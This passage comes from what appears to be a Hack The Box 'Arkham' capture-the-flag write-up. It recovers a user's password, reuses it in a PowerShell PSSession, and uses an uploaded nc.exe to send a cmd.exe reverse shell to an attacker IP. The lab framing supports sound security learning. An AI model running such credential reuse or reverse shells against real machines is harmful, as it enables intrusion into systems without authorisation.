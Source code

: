 ![img](/images/arkham-writeup/16.png)

Convert the attachment back to .png and the result is this:

![img](/images/arkham-writeup/17.png)

Not only this picture gives us the Batman account's password, it also gives us a big hint on one of the two ways we have to get root. So now we have a new pair of credentials:

```shell-session
User: batman
Pass: Zx^#QZX+T!123
```

There are no services such as RDP or SSH running on the box so we cannot log in as Batman from the outside, but we can do it through a [PSSession](https://www.sconstantinou.com/windows-powershell-sessions-pssessions/):

```powershell
$pw = ConvertTo-SecureString -string "Zx^#QZX+T!123" -AsPlainText -force;
$pp = new-object -typename System.Management.Automation.PSCredential -ArgumentList "ARKHAM\batman", $pw;
Enter-PSSession -ComputerName localhost -Credential $pp
```

![img](/images/arkham-writeup/18.png)

Once in the PSSession we must follow the following syntax in order to run cmd commands:

```powershell
Invoke-Command -ScriptBlock { command }
```

This is very tedious to write every time so we can bypass this obstacle by using the nc.exe executable we uploaded earlier to start a normal cmd shell on another port:

```powershell
Invoke-Command -ScriptBlock {C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe 10.10.14.29 9797 -e cmd.exe}
```

![img](/images/arkham-writeup/19.png)

Now we can start investigating the system further. Batman's home folder doesn't contain anything so what's the purpose in using this account? Well, apparently Batman is actually part of the Administrators group:

![img](/images/arkham-writeup/20.png)

But trying to access the Administrator folder still results in an access denied error:

![img](/images/arkham-writeup/21.png)

This is because UAC is enabled and doesn't allow us to use Administrator privileges, we'd need to be in an interactive desktop and click "Yes" on the UAC prompt in order to execute commands that require Administrator permissions.

---
